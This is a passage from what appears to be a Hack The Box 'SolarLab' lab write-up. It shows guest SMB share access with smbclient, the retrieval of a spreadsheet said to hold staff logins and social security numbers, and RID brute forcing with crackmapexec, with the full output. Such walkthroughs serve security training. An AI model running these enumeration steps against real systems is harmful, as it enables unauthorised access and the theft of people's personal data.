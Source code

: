 Surprisingly we don't need a password as a guest login, and we see that we have access to the share drive, along with some documents.


```bash
─(kali㉿kali)-[~]
└─$ smbclient //solarlab.htb/Documents -U Guest
Password for [WORKGROUP\Guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

smb: \> get details-file.xlsx
getting file \details-file.xlsx of size 12793 as details-file.xlsx (94.6 KiloBytes/sec) (average 94.6 KiloBytes/sec)

```
## Avenue of Exploitation
After looking at the details-file.xlsx, we see that we have a list of logins, social security numbers, and various other personal details of the staff in Solar Labs.

![details_file](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/47ab6e8e-8c80-47fb-b59b-29f78e0f1d28)




Now that it is possible to access port 445 anonymously, we can use crackmapexec to brute force Relative Identifiers.

```bash
crackmapexec smb solarlab.htb -u anonymous -p '' --rid-brute

SMB         solarlab.htb    445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         solarlab.htb    445    SOLARLAB         [+] solarlab\anonymous: 
SMB         solarlab.htb    445    SOLARLAB         [+] Brute forcing RIDs
SMB         solarlab.htb    445    SOLARLAB         500: SOLARLAB\Administrator (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         501: SOLARLAB\Guest (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         503: SOLARLAB\DefaultAccount (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         504: SOLARLAB\WDAGUtilityAccount (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         513: SOLARLAB\None (SidTypeGroup)
SMB         solarlab.htb    445    SOLARLAB         1000: SOLARLAB\blake (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         1001: SOLARLAB\openfire (SidTypeUser)


```
